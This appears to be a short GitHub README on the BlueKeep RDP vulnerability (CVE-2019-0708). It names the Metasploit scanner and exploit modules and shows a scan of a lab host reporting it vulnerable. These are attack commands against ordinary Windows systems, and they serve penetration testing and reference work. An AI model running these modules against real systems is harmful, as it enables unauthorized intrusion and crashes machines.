# CVE-2019-0708

CVE-2019-0708 - BlueKeep RDP Remote Windows Kernel Use After Free

A remote code execution vulnerability exists in Remote Desktop Services formerly known as Terminal Services when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests, aka 'Remote Desktop Services Remote Code Execution Vulnerability'.

The exploit will cause bluescreen by default.

## Scanner

```bash
msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

## Exploit

```bash
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

## Examples

##### Scanner example

```bash
msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf5 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set rhosts 10.10.10.16
msf5 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run

[+] 10.10.10.16:3389      - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 10.10.10.16:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## References

- [nvd.gist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)
- [Pentest-tools.com](https://pentest-tools.com/blog/bluekeep-exploit-metasploit/)
